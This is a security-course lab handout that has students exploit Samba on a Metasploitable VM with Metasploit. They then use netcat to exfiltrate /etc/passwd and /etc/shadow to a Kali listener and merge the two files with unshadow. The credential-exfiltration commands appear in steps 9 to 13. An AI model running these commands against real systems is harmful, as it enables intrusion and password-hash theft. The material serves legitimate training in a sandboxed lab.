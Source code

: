 # Lab 7 - Exploiting Samba and Exfiltrating Data 

Samba is a free software implementation of the SMB networking protocol. It provides file and print services for various systems. It runs on most Unix-like systems such as Linux, Solaris, AIX etc. 

In this Lab, you will be exploiting the Samba implementation on Metasploitable as well as use netcat to exfiltrate data.

Ensure that both the Kali and the metasploitable machines are powered on and on the same network. Verify connectivity between them by using the ping command.

1. Run nmap against the metasploitable machine using the following command.

	`sudo nmap -sV <metasploitable IP> -vvv` (make a note of open ports and services).

	make a note of what port Samba is running.

2. On your Kali machine launch the metasploit framework.

3. Search for Samba exploits based on version identified in nmap results.

	`msf6> search type:exploit name:samba`

4. Select the exploit matching the version (note that the search option may not provide a lot of information so you will likely have to try multiple exploits to make it work).

5. Select the exploit by using command below.

	`use exploit/xxxxx`

6. Set required options by using set command (hint RHOSTS, and possibly payload).

7. Execute the exploit (this should open a session on the exploited host).

8. Open another Kali terminal window.

9. Launch netcat in a listen mode and redirect output to a file as shown.

	`nc -l -p 4567 > passwd.txt`

10. From the exploited system terminal (session opened from metasploit exploit you executed) type the following commands to extract the `/etc/passwd` file.

	`cat /etc/passwd | nc <kali ip> 4567` (there will be no progress bar and there should be no error messages).

go back to the listening netcat window and terminate it using CTRL+C. Cat the contents of the `passwd.txt` file using command below.

	`cat passwd.txt` 

11. Start another `netcat` command but redirect the contents to `shadow.txt` instead of `passwd.txt` (use the same command as in Step 9 just change `passwd.txt` to `shadow.txt`).

12. From the exploited system terminal (session opened from metasploit exploit you executed) type the following commands to extract the `/etc/shadow file`.

	`cat /etc/shadow| nc <kali ip> 4567` (there will be no progress bar and there should be no error messages).

go back to the listening netcat window and terminate it using CTRL+C. Cat the contents of the `passwd.txt` file using command below.

	`cat shadow.txt`

13. On your kali box combine the contents of `passwd.txt` and `shadow.txt` using the command below.

	`unshadow passwd.txt shadow.txt > user_logins.txt` 

14. What is the content of the combined `user_logins.txt` file (include screenshot).
